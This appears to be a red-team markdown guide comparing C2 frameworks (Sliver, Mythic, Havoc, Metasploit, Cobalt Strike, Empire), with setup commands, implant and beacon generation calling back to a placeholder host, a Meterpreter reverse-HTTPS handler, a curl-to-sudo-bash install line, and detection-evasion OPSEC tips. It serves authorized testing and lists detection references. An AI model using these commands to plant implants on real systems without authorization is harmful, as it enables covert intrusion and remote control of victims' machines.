

# C2 Frameworks

Authorized engagements only. C2 is loud; every beacon touches a log somewhere.

## Picking one

| Framework  | Language        | Strength                                       | Weak point                          | License     |
|------------|-----------------|------------------------------------------------|-------------------------------------|-------------|
| Sliver     | Go              | Multi-platform, easy TLS, mTLS, DNS, WG        | Smaller tradecraft community        | GPLv3       |
| Mythic     | Python + Docker | Agent-agnostic, modular, clean UI              | Heavy setup, per-agent tradecraft   | BSD-3       |
| Havoc      | C++/Go          | Modern Windows tradecraft, indirect syscalls   | Windows-centric, fewer transports   | GPLv3       |
| Metasploit | Ruby            | Ubiquitous, exploit library, training          | Heavily signatured, not OPSEC-safe  | BSD-3       |
| Cobalt Strike | C + Java     | Commercial gold-standard, malleable C2         | $3.5k/seat, cracked versions = jail | Commercial  |
| Empire (BC Security) | PS + Python | PS/Python agents, starkiller UI       | Older tradecraft, PS-heavy          | BSD-3       |

Repos and docs:

- Sliver — https://github.com/BishopFox/sliver — docs https://sliver.sh
- Mythic — https://github.com/its-a-feature/Mythic — docs https://docs.mythic-c2.net
- Havoc — https://github.com/HavocFramework/Havoc
- Metasploit — https://github.com/rapid7/metasploit-framework
- Empire — https://github.com/BC-SECURITY/Empire
- Cobalt Strike — https://www.cobaltstrike.com

## Decision flow



Rule of thumb: Sliver for most modern engagements, Mythic if you need multi-agent / custom tradecraft, Havoc on hard Windows targets with EDR, Metasploit for labs and training only.

## Sliver listener setup

Install on Linux server:

```bash
curl https://sliver.sh/install | sudo bash
sudo systemctl enable --now sliver
sliver
```

Inside the client:

```
new-operator --name kdairatchi --lhost c2.example.tld
# Listeners
https --domain c2.example.tld --lport 443 --persistent
mtls --lport 8888 --persistent
dns --domains c2.example.tld. --persistent
# Implant
generate --mtls c2.example.tld:8888 --os windows --arch amd64 --format exe --save ./impl.exe
generate beacon --http https://c2.example.tld --jitter 30 --seconds 60 --os linux --format elf --save ./beacon
```

Reference: https://sliver.sh/docs.

## Mythic listener setup

```bash
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic
sudo ./mythic-cli install github https://github.com/MythicAgents/apollo   # Windows .NET agent
sudo ./mythic-cli install github https://github.com/MythicAgents/poseidon # Linux/macOS Go agent
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
sudo ./mythic-cli start
```

UI at `https://<host>:7443`. Build payloads from the web UI; C2 profiles configured per-agent.

Reference: https://docs.mythic-c2.net/installation.

## Havoc listener setup

Compile server + client on Debian 11/12:

```bash
git clone https://github.com/HavocFramework/Havoc.git && cd Havoc
# teamserver
cd teamserver && go mod download && cd .. && make ts-build
# client
sudo apt install qtbase5-dev libqt5websockets5-dev python3-dev libboost-all-dev
make client-build
./havoc server --profile profiles/havoc.yaotl
./havoc client
```

Config profile example lives at `profiles/havoc.yaotl`. Listeners created in client UI, Demon payloads generated per-listener.

## Metasploit listener

Training and lab use:

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST 0.0.0.0
set LPORT 443
set HandlerSSLCert /etc/letsencrypt/live/c2.example.tld/fullchain.pem
set StagerVerifySSLCert true
set EnableStageEncoding true
run -j
```

Meterpreter traffic is well-signatured; do not use outside of authorised lab or training.

## OPSEC ground rules for all frameworks

- TLS everywhere, valid cert, category-aged domain, domain-fronting or redirector.
- Sleep + jitter: minimum 30s / 30% jitter; 5–10 minute callback for long ops.
- Kill-date on every implant. Rotate keys per engagement.
- Keep the team server firewalled — only redirector can reach it.
- No operator notes, creds, or screenshots on the team server.
- Log everything locally for the report (Sliver `log`, Mythic event feed).

## Detection references

- Sliver network signatures — https://github.com/BishopFox/sliver/blob/master/docs/sliver-docs/pages/docs/md/general/Network-Communication.md
- Mythic C2 profiles (each has detection guide) — https://github.com/MythicC2Profiles
- MITRE ATT&CK Command and Control TA0011 — https://attack.mitre.org/tactics/TA0011/
- Unit 42 Cobalt Strike detection — https://unit42.paloaltonetworks.com/cobalt-strike-team-server/

## Further reading

- "Operator's Handbook" — https://github.com/RedTeamOperations/Operators-Handbook (archive)
- Raphael Mudge's original Cobalt Strike lectures — https://www.youtube.com/playlist?list=PL9HO6M_MU2nf8Njb9THGgQXXzbDuYIzp6
- SpecterOps blog — https://posts.specterops.io/
